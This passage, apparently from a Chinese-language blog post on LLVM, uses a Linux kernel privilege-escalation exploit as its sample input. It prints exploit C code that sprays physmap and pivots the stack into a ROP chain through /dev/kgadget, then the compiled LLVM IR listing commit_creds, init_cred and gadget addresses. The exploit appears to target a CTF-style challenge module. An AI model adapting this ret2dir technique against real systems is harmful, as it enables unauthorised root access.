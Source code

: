 ```c

    dev = open("/dev/kgadget", O_RDWR);
    if(dev < 0)     // failed to open key device, an unexpected error
        error_log("Cannot open device \"/dev/kgadget\"!");

    page_size = sysconf(_SC_PAGESIZE);      // the size of a page, namely 4096 bytes

    info_log("Spraying physmap......");

    map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    makeROP(map_spray[0]);

    for(int i=1; i<15000; i++){
        map_spray[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if(!map_spray[i])
            error_log("Mmap Failure!");
        memcpy(map_spray[i], map_spray[0], page_size);
    }

    guess = 0xffff888000000000 + 0x7000000;

    info_log("Ready to turn to kernel......");

    __asm__("mov r15, 0xdeadbeef;"
            "mov r14, 0xcafebabe;"
            "mov r13, 0xdeadbeef;"
            "mov r12, 0xcafebabe;"
            "mov r11, 0xdeadbeef;"
            "mov r10, 0xcafebabe;"
            "mov rbp, 0x12345678;"
            "mov rbx, 0x87654321;"
            "mov r9, poprsp_ret;"
            "mov r8, guess;"
            "mov rax, 0x10;"
            "mov rcx, 0x12345678;"
            "mov rdx, guess;"
            "mov rsi, 0x1bf52;"
            "mov rdi, dev;"
            "syscall;"
            );
    return 0;
}
```

用下面的命令可以生成.ll文件准备输入到LLVM中：``clang -emit-llvm -S firstLLVMtest.c -o firstLLVMtest.ll``

生成的.ll文件的前面一部分内容：
```
; ModuleID = 'firstLLVMtest.c'
source_filename = "firstLLVMtest.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@commit_creds = dso_local constant i64 -2129882400, align 8
@init_cred = dso_local constant i64 -2103003392, align 8
@swapgs_restore_regs_and_return_to_usermode = dso_local constant i64 -2118119477, align 8
@ret = dso_local constant i64 -2130705924, align 8
@poprdi_ret = dso_local constant i64 -2130131216, align 8
@poprsp_ret = dso_local constant i64 -2129361968, align 8
@add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = dso_local constant i64 -2130233346, align 8
@.str = private unnamed_addr constant [23 x i8] c"Status has been saved.\00", align 1
@.str.1 = private unnamed_addr constant [5 x i8] c"%#5x\00", align 1
```
